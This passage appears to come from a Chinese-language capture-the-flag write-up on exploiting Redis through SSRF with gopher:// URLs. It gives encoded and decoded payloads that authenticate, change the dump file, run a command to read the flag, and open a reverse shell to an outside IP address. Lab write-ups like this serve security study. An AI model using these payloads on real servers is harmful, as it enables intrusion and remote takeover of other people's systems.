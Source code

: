 返回三个ok

关闭后去看刚刚监听的地方会返回pong

![image-20241028202913312](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282029341.png)

然后我们导出数据库（设置备份文件名字）

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250aconfig%2520set%2520dbfilename%2520dump.rdb%250d%250aquit

#上述payload的解码结果
gopher://0.0.0.0:6379/_auth root
config set dbfilename dump.rdb
quit

```

返回三个ok

![image-20241028203047264](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282030292.png)

### 方法一

rce获得**flag**

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250asystem.exec%2520%2522cat%2520%252Fflag%2522%250d%250aquit

#上述payload的解码结果
gopher://0.0.0.0:6379/_auth root
system.exec "cat /flag"
quit
```

![image-20241028203615854](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282036881.png)

### 方法二

shell**反弹**（没弹出但有这个方法）

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250asystem.rev%252060.204.158.87%25206666%250d%250aquit

#上述payload的解码结果
gopher://0.0.0.0:6379/_auth root
system.rev 1.xx.xx.xx 6666
quit

```

### redis主从复制
